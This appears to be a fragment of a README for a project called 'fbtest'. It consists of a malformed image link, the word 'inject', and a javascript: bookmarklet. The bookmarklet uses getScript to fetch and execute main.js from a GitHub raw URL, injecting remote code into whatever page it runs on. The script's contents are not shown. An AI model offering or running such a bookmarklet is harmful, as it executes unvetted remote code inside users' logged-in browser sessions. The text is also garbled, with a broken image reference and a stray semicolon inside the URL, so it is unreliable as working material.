 # fbtest
inject
javascript:(function(){ $.getScript(';https://raw.githubusercontent.com/meamme/fbtest/master/main.js'); }())

